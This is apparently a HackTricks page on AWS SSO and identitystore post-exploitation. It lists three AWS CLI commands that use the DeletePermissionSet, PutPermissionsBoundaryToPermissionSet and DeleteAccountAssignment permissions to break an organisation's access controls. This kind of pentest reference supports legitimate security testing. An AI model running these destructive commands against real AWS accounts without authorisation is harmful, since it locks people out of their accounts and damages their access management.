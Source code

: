 # AWS - SSO & identitystore Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SSO & identitystore

For more information check:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### `sso:DeletePermissionSet` | `sso:PutPermissionsBoundaryToPermissionSet` | `sso:DeleteAccountAssignment`

These permissions can be used to disrupt permissions:

```bash
aws sso-admin delete-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>

aws sso-admin put-permissions-boundary-to-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --permissions-boundary-policy-arn <PolicyARN>

aws sso-admin delete-account-assignment --instance-arn <SSOInstanceARN> --target-id <TargetID> --target-type <TargetType> --permission-set-arn <PermissionSetARN> --principal-type <PrincipalType> --principal-id <PrincipalID>
```

{{#include ../../../banners/hacktricks-training.md}}





